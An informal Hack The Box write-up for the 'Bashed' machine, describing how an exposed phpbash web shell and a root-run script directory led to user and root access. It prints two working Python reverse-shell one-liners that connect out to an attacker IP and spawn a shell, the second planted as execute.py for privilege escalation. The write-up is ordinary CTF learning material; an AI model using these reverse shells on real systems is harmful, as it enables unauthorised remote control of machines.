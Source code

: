 Bahed - HTB Writeup 

![top](images/bashed/top-bash.png)

The bashed was a simple the box that was already running a webshell then the privileges were escalated by python script.   
The nmap scan revealed the only port 80 with no ssh which is unsusual.  
I opened the site at http and creator of the site has disclosed the information that he incorporated phpbash on this site.  
So i fuzzed directories and appended phpbash.php and found its location at /dev. So there goes the user flag.   

![fuzz](images/bashed/fuzzz-bash.png)
 
![bash](images/bashed/phpbash-bash.png)


Then i attempted to get reverse shell to my own machine however using basic bash syntax didnt work for some reason.  
Then chatgpt gave me this fuckass long python command to get reverse shell and it worked.    
  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9001)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);'  

After running sudo -l i found out that i can become the scriptmanager user and run scripts with his priveleges.

![scriptm](images/bashed/scriptmanager-bash.png)

So i became one.

![sudo](images/bashed/user-bash.png)

Then i discovered scripts directory in root dir that is owned by the scriptmanager.
There was python program and file generated by this python program.
When i deleted this file it came back meaning that the python program was executed repeatedly.
So what i did was i created new python file where i inserted the fuckass long shell from earlier and BANG i got a new session running as root on second listening port.

![root](images.bashed/bashed/root-bash.png)

echo 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.16.7",9002)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/sh","-i"]);' > execute.py
